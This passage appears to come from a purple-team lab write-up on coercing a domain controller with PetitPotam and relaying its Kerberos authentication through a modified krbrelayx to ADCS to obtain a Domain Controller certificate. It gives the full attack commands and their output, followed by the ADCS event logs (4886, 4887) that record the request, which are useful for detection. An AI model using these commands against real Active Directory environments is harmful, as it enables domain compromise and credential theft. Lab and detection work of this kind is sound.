 python3 PetitPotam.py -u 'attacker' -p '1attacker*' dc011UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA dc01.purpleteam.local

Trying pipe lsarpc
[-] Connecting to ncacn_np:dc01.purpleteam.local[\PIPE\lsarpc]
[+] Connected!
[+] Binding to c681d488-d850-11d0-8c52-00c04fd90f7e
[+] Successfully bound!
[-] Sending EfsRpcOpenFileRaw!
[-] Got RPC_ACCESS_DENIED!! EfsRpcOpenFileRaw is probably PATCHED!
[+] OK! Using unpatched function!
[-] Sending EfsRpcEncryptFileSrv!
[+] Got expected ERROR_BAD_NETPATH exception!!
[+] Attack worked!
```

3. Krbrelayx.py (modified version to remove the NTLM relay and force the kerberos usage. More detail in the article above : Sysadmins in shambles)
```
python3 krbrelayx.py --target 'http://DC01.purpleteam.local/certsrv/certfnsh.asp' --adcs --template 'Domain Controller' --victim 'DC01$' 
[*] Protocol Client HTTPS loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client SMB loaded..
[*] Running in attack mode to single host
[*] Running in kerberos relay mode because no credentials were specified.
[*] Setting up SMB Server
[*] Setting up HTTP Server on port 80
[*] Setting up DNS Server

[*] Servers started, waiting for connections
[*] SMBD: Received connection from 172.16.0.1
[*] HTTP server returned status code 200, treating as a successful login
[*] Generating CSR...
[*] CSR generated!
[*] Getting certificate...
[*] GOT CERTIFICATE! ID 54
```

## ADCS event logs

1. 4886 
```
Certificate Services received a certificate request.
	
Request ID:	54
Requester:	PURPLETEAM\DC01$
Attributes:	
CertificateTemplate:DomainController
ccm:DC01.purpleteam.local
```

2. 4887
```
Certificate Services approved a certificate request and issued a certificate.
	